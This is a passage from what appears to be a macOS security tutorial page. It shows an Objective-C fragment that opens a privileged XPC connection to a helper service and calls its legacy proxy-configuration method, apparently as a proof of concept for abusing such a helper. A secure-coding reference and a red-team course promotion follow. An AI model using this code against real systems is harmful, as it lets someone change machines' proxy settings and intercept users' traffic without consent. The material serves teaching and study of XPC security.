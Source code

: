 ```objectivec
     
    // Establish an XPC connection
    NSString *serviceName = XPCServiceName;
    NSXPCConnection *xpcConnection = [[NSXPCConnection alloc] initWithMachServiceName:serviceName options:0x1000];
    NSXPCInterface *xpcInterface = [NSXPCInterface interfaceWithProtocol:@protocol(XPCHelperProtocol)];
    [xpcConnection setRemoteObjectInterface:xpcInterface];
    [xpcConnection resume];

    // Handle errors for the XPC connection
    id remoteProxy = [xpcConnection remoteObjectProxyWithErrorHandler:^(NSError *error) {
        NSLog(@"[-] Connection error");
        NSLog(@"[-] Error: %@", error);
    }];

    // Log the remote proxy and connection objects
    NSLog(@"Remote Proxy: %@", remoteProxy);
    NSLog(@"XPC Connection: %@", xpcConnection);

    // Use the legacy method to configure the proxy
    [remoteProxy legacyConfigureProxyWithAuthorization:authData enabled:isProxyEnabled host:proxyAddress port:proxyPort reply:^(NSError *error, BOOL success) {
        NSLog(@"Response: %@", error);
    }];
         
    // Allow some time for the operation to complete
    [NSThread sleepForTimeInterval:10.0f];
    
    NSLog(@"Finished!");
}
```

## References

* [https://theevilbit.github.io/posts/secure\_coding\_xpc\_part1/](https://theevilbit.github.io/posts/secure\_coding\_xpc\_part1/)

<details><summary><strong>Learn AWS hacking from zero to hero with</strong> <a href="https://training.khulnasoft.com/courses/arte"><strong>htARTE (ByteBreach AWS Red Team Expert)</strong></a><strong>!</strong></summary></details>
